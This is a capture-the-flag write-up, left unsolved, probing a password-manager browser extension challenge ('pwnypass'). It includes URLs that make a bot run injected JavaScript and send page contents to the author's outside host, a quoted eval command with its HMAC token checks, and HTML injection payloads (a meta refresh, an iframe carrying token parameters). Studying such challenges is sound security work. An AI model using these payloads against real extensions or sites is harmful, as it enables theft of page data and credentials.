 ```yaml
---
ai_date: '2025-04-27 05:22:12'
ai_summary: Found eval function with custom token validation, allowing code execution;
  also discovered iframe injection for injecting tokens.
ai_tags:
- eval
- xss
- iframe-injection
created: 2024-06-29T18:39
updated: 2024-07-07T23:06
---
```


**FAILED TO SOLVE**

I am allowed to make the bot visit any website, so...

## Analyze

The bot's window has some extra keys

```js
['event', 'fence', 'sharedStorage', 'fetchLater', 'onpageswap', 'onpagereveal', 'model']
```

The bot does the following things
- Goto https://pwnypass.c.hc.lc/login.php
- Fill up username password and submits
- Goto my URL

Sending it to `https://attack.yun.ng/attack/uiuctf?extra=track({chrome:chrome})`

### Chrome
Turns out chrome is accessible.

Sending it to `https://attack.yun.ng/attack/uiuctf?extra=track({a:analyze(chrome)})&no`

```json
{
    "loadTimes:function": {
        "requestTime": 1719704395.397,
        "startLoadTime": 1719704395.397,
        "commitLoadTime": 1719704395.543,
        "finishDocumentLoadTime": 0,
        "finishLoadTime": 0,
        "firstPaintTime": 0,
        "firstPaintAfterLoadTime": 0,
        "navigationType": "Other",
        "wasFetchedViaSpdy": true,
        "wasNpnNegotiated": true,
        "npnNegotiatedProtocol": "h3",
        "wasAlternateProtocolAvailable": false,
        "connectionInfo": "h3"
    },
    "csi:function": {
        "startE": 1719704395397,
        "onloadT": 0,
        "pageT": 155.841,
        "tran": 15
    },
    "app:object": {
        "isInstalled:boolean": false,
        "getDetails:function": null,
        "getIsInstalled:function": false,
        "runningState:function": "cannot_run",
        "InstallState:object": {
            "DISABLED:string": "disabled",
            "INSTALLED:string": "installed",
            "NOT_INSTALLED:string": "not_installed"
        },
        "RunningState:object": {
            "CANNOT_RUN:string": "cannot_run",
            "READY_TO_RUN:string": "ready_to_run",
            "RUNNING:string": "running"
        }
    }
}
```

Nothing interesting... Maybe add some delay?

Sending it to `https://attack.yun.ng/attack/uiuctf?extra=setTimeout(()=>{track({a:genTree(document),b:allInputs()})},5000)&no`

Theres a DIV element added.

Send `https://attack.yun.ng/attack/uiuctf?extra=setTimeout(()=>{track({a:document.body.innerHTML})},5000)&no`

```html
<div class="pwnypass-autofill-host" style="position: fixed !important; z-index: 9999 !important; inset: 0px !important; pointer-events: none !important;"></div>
```

hrmm...

### Background.js

```js
async function evaluate(_origin, data) {
    return eval(data);
}


const commands = {
    read,
    write,
    evaluate // DEPRECATED! Will be removed in next release.
}
```

Then I realized this.

So what's between me and that sweat `eval`? A custom token.

```js
if (await doHmac(token) !== hmac) return;                       // I need to obtain hmac from issue
let [ts, tab, origin, command] = token.split("|");              // payload be [time, tabid, mytab, 'evaluate','code','dummy']
if (parseInt(ts) + 60*5 < Math.floor(Date.now()/1000)) return;  // i have 5 minutes
if (sender.tab.id !== parseInt(tab)) return;                    // it must be from the same tab
if (await getOrigin(parseInt(tab)) !== origin) return;          // the tab must be of that origin
```

### Autofill.js

We can inject into that little popup via username and password.

```html
<meta http-equiv="refresh" content="0; url=https://webhook.site">
```

It works but is not useful.

I can also inject an iframe.

```html
<iframe src="./autofill.html?token=TOKEN&hmac=HMAC"></iframe>
```

It allows me to pass any token and hmac, but I still have to obtain their values first.

... Idk.